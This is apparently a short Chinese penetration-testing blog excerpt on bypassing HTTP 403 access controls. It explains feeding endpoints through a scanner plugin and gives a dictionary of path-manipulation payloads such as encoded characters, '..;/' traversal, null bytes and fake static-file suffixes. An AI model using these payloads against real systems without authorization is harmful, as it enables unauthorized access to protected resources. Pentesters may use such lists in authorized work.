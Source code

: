 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXyncVmjpMaohRyepKdYDVsHlzHPzzLibUtKQJZHiar7YiaqHvr1DfPfBkvd3gXzia56WaCKuAPd0WMTQ/640?wx_fmt=png&from=appmsg "null")  
  
资源文件绕过字典,一般遇到403  
可疑接口我都是利用Onesacn  
去帮我在接口不同位置拼接测试，在插件中设置好字典,有403  
接口就发过去跑,利用资源文件进行多个位置拼接  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXyncVmjpMaohRyepKdYDVsIlMlT8YpaS8A0UIvh9icXkPSI0xCjYy6EfBAEUIqdQ4ibkpqcWogicZyA/640?wx_fmt=png&from=appmsg "null")  
  
如果出现状态码为200  
且字节长度很场很大概率又加载出了新东西,我们也就能测试更多地方  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXyncVmjpMaohRyepKdYDVsG8lyebPOgiaWA2OSXSXZibIffHibkH5a2YOAEHNHX1Uq1JANqDmicbTRzQ/640?wx_fmt=png&from=appmsg "null")  
  
资源文件字典  
```
%09
%20
%23
%2e
%2f
/%2e/
//
/..;/
//..;/
/%20
/%09
/%00
/.json
/.css
/.html
/?
/??
/???
/?testparam
/#
/#test
//.
////
/.//./
~
.
;
..;
。
;%09
;%09..
;%09..;
;%2f..
*
.json
../
..;/
?a.css
?a.js
?a.jpg
?a.png
../admin
..%2f
./
.%2f
..%00/
..%0d/
..%5c
```